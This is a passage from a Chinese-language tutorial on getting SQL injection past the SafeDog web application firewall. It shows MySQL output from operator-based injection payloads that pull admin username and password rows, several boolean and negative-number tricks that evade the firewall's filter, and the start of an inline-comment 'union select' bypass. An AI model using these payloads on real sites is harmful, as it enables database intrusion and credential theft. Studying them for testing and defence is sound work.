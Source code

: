 知道这个了我们带入我们的语法就很简单了 通过运算符来改变ID的值 查看页面是否变化 这是可行的。

```
mysql> select * from admin where id ='1'|2-- +';
    -> ;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    3 | bdmin    | fdmin    |
+------+----------+----------+
1 row in set (0.00 sec)

mysql> select * from admin where id ='1'|1-- +';
    -> ;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | cdmin    | bdmin    |
+------+----------+----------+
1 row in set (0.00 sec)

```

经过测试你还会发现他的正则不全`&& true` 也是可以的。


那我们可以不可以正面刚`and` `or` 呢，当然也是可行的，前面我们测试过 `and hex(1)` 不拦截其实已经可以拿来判断了，但是我们还要深入的探究 

`and hex(1)=` 也是不拦截的 但是后面加入字符型和数字型他又开始拦截，所以我们可以猜测 他判断 = 左右的字符类型，经过测试就能出来很多我们想要的

```
and ~1>1

and hex(1)>-1

and hex(1)>~1

```

再深入探究 你就会发现 安全狗他只在乎 数字型的正数，而不在乎负数，也就是`and -2<-1` 就能过狗，也可能是`-` 绕过了他的正则


# 0x02 探索 union select 

1.  内联注释绕过

```
union    不拦截
select   不拦截
union select 拦截
union 各种字符 select 拦截
union/*select*/ 不拦截

```

通过简单的测试我们发现安全狗还是认识我们我们的注释的符号的,所以我们就需要通过这个来绕过我们的安全狗，前面符号一章我讲过注释符号的几种，我们主要使用的是
